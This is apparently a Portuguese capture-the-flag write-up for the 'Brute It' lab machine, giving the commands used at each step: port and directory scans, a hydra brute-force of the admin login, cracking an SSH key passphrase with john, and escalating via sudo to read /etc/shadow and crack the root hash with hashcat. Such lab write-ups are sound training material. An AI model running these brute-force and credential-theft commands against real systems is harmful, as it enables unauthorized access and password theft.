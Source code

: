 # Brute It

* ### Scan de portas - Verificando quais portas estão abertas.
```bash
rustscan -a 10.10.254.47
```
![image](https://github.com/lufffe/Writeups/assets/90646635/1cf6163d-2bd6-4d0a-b0f3-028bd0c2b9bc)

![image](https://github.com/lufffe/Writeups/assets/90646635/d82e94f7-67fb-417d-a8cd-5f30726041c4)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80 10.10.254.47
```
![image](https://github.com/lufffe/Writeups/assets/90646635/41d74d76-9954-4474-86c8-be5f32c7ad11)

* ### Scan de Arquivos e Diretórios.
```bash
gobuster dir -u http://10.10.254.47 -w ~/directory-list-2.3-small.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/a64cdebc-51c2-47a6-a596-8da39b675f35)


* ### Pasta /admin que encontramos no scan de diretorios.
![image](https://github.com/lufffe/Writeups/assets/90646635/62db7cd6-310e-4364-b917-23bcbef6b898)

* ### Brute Force no usuário admin.
```bash
sudo hydra -l admin -P ~/rockyou.txt 10.10.254.47 http-post-form "/admin/index.php:user=admin&pass=^PASS^:F=Username or password invalid" -V
```
![image](https://github.com/lufffe/Writeups/assets/90646635/95af0208-d9eb-4b00-894d-f322af24540f)

* ### Aqui tem a Flag Web, e uma chave ssh privada.
![image](https://github.com/lufffe/Writeups/assets/90646635/0e7bbd9c-2aa0-4953-92f0-b99883eb04a8)

* ### Descobrindo a senha da chave privada.
```bash
/usr/share/john/ssh2john.py id_rsa > hash.txt
```
```bash
john hash.txt -wordlist=~/rockyou.txt
```

* ### Acessando via SSH.
```bash
ssh -i id_rsa john@10.10.254.47
```
![image](https://github.com/lufffe/Writeups/assets/90646635/3b4bd8b2-3d52-4ebe-af59-2a353c68d249)


* ### Flag Usuário.
```bash
cat user.txt
```

* ### Escalando Previlégio.
```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6cc85426-329f-4f1a-9bdb-b9ae869cc3a0)

* ### Flag Root.
```bash
sudo /bin/cat /root/root.txt
```

* ### Pega o hash que está no usuário root.
```bash
sudo /bin/cat /etc/shadow
```

* ### Quebrando o hash.
```bash
hashcat -m 1800 hash ~/rockyou.txt
```

